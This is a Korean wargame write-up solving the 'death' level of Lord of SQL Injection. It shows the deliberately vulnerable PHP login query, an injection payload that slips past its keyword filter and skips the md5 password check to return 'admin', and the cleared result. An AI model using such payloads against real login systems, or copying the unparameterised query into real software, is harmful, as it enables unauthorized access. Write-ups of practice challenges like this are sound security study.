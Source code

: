 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - death 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


두 번째 문제는 `death`이다.  

이 전 문제와 비슷해서 쉽게 풀 수 있었다.  

<!--more-->

코드는 다음과 같다.  

```php
-----------------------------------------------------------------
query : select id from prob_death where id='' and pw=md5('')
-----------------------------------------------------------------

<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_death where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("death");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

이 전 문제와 동일하게 방화벽이 걸려 있으며, 다른점은 `pw`가 `md5`로 해싱된다는 것과 추출한 결과의 `id` 값이 `admin`이어야 한다는 것이다.  

언뜻 보기에는 `admin`의 정확한 `pw` 값을 알아야 할 것 같다.  

하지만 어찌어찌 방화벽을 우회해서 DB에 저장된 pw 값을 뽑아낸다 하더라도 그 값은 `md5`로 해싱 된 값이기 때문에 `pw`를 복구하기가 어렵다.  

때문에 뒤의 `pw`를 검사하는 부분을 무시하도록 혹은 검증하지 않도록 공격을 수행해야 한다.  

이를 위해 내가 생각한 쿼리는 다음과 같다.  

```
id=-1'<@=1 OR id<'guest' OR '&pw=a
```

이를 입력하면 완성되는 쿼리는 다음과 같다.  

```
select id from prob_death where id='-1'<@=1 OR id<'guest' OR '' and pw=md5('a')
```

`where 절`을 살펴보면 조건은 크게 3개이다.  

첫 번째로 `id='-1'<@1`은 이 전 문제에서 설명했다시피 `'-1'<@1`이 `NULL`이 되며 `id=NULL`이 되기 때문에 `거짓`이 된다.  

이 때, 두 번째 조건은 `id<'guest'`이다.  `id`의 값이 `guest` 보다 작은 값을 찾게 되는데, 이는 테이블에 값이 `admin`과 `guest`만 있다고 가정하고 사용 한 조건이다.  

알파벳 `a`는 `g`보다 값이 작기 때문에 `admin`의 값은 `guest`보다 작다.  

만약 테이블에 `admin`과 `guest`의 두 값만 있다면, `id<'guest'`의 결과는 당연히 `admin`이 될 것이다.  

여기서 두 번째 조건이 참이 되었기 때문에 뒤의 `'' and pw=md5('a')`는 무시하게 된다.  

해당 쿼리를 문제에 전달하면 아래와 같이 `admin` 값을 추출하며 문제를 풀 수 있다.  

```php
-------------------------------------------------------------------------------------------
query : select id from prob_death where id='-1'<@=1 OR id<'guest' OR '' and pw=md5('a')
-------------------------------------------------------------------------------------------

DEATH Clear!
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)|admin/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_death where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("death");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

`DEATH Clear!`